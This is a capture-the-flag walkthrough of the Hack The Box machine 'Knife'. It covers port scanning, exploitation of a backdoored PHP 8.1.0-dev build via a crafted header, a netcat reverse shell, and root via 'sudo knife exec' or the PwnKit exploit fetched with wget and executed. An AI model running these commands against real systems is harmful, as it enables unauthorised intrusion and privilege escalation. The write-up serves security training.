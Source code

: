 ```yaml
---
title: Knife
published: true
layout: post
---
```


<br />

---------------
Knife is an easy difficulty Linux machine that features an application which is running on a backdoored version of PHP. This vulnerability is leveraged to obtain the foothold on the server. A sudo misconfiguration is then exploited to gain a root shell.

<br />

<iframe width="560" height="315" src="https://www.youtube.com/embed/dkUBdFwqKy4?si=s26SYzfXwAwA_9kW" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.10.242 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn
```

![All Ports](/assets/Knife/1.png)
<br />
<br />
<br />

There are **2 open ports**:
+ **22/tcp**
+ **80/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.242 -p 22,80 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A -v
```

![Services](/assets/Knife/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **22/tcp OpenSSH 8.2p1**
+ **80/tcp Apache httpd 2.4.41**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.242 -p 22,80 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn -v
```

![Vulnerabilities](/assets/Knife/3.png)
<br />
<br />
<br />

We only detect a **DoS vulnerability** for the **http service**, which is not useful.

<br />

------

<br />
### Foothold

I think this machine is pretty **beginner-friendly**, as we can solve it basically by enumerating and searching for exploits, however we have to understand what we are doing.

<br />

The first thing that revealed a vulnerability was the **technologies enumeration**:

```bash
whatweb http://10.10.10.242 > whatweb.txt
```

![Whatweb](/assets/Knife/4.png)
<br />
<br />
<br />

The version of PHP is definitely noteworthy, **8.1.0-dev**, the *-dev* suffix is not common in production environments, which leads me to search for a vulnerability using searchsploit:

```bash
searchsploit PHP 8.1.0-dev
```

![Searchsploit](/assets/Knife/5.png)
<br />
<br />
<br />

We can see an exploit that perfectly fits our version, so let's read it and try to replicate it:
![Exploit](/assets/Knife/6.png)
<br />
<br />
<br />

It seems that the script sends an HTTP request in which there is an uncommon header, *User-Agentt*, in which we can use the function `zerodiumsystem()` to **execute a command**, which output is printed before the *<!DOCTYPE html>* tag. Let's try it using BurpSuite:

![whoami](/assets/Knife/7.png)
<br />
<br />
<br />

It's working like a charm, let's send us a **reverse shell**:
```bash
rlwrap nc -nlvp 4444
```

![RevShell](/assets/Knife/8.png)
<br />
<br />
<br />

Let's print the flag and go for the privilege escalation:
<br />
![UserOwn](/assets/Knife/9.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation
For this machine, I discovered **two ways to escalate privileges**, the conventional one and an alternative one.

<br />
#### Conventional Privilege Escalation
Enumerating the system, I discovered that we are able to run the `knife` command as sudo without requiring a password:
```bash
sudo -l
```

![sudo](/assets/Knife/10.png)
<br />
<br />
<br />

A glimpse at [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) uncovered the way:
```
sudo knife exec -E 'exec "/bin/bash"'
```
![knifeprivesc](/assets/Knife/11.png)
<br />
<br />
<br />

Now we just have to print the flag:
<br />
![RootOwn](/assets/Knife/12.png)

<br />
#### Alternative Privilege Escalation
The alternative privilege escalation method works through **CVE-2021-4034**, which is based on giving **SUID permission to an old version of the pkexec binary**:

```bash
find / -perm -4000 -ls 2>/dev/null
```

![SUID](/assets/Knife/13.png)
<br />
<br />
<br />

To exploit this vulnerability I used the [PwnKit](https://github.com/ly4k/PwnKit) created by **ly4k**, we just have to download it in our machine:

```bash
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
sudo python3 -m http.server 80
```
<br />

And then **transfer it to the target machine and run it**:

```bash
wget http://10.10.16.8/PwnKit
chmod +x PwnKit
./PwnKit
```

![PwnKit](/assets/Knife/14.png)
<br />
<br />
<br />

Now we just have to print the flag:
<br />
![RootOwn](/assets/Knife/12.png)
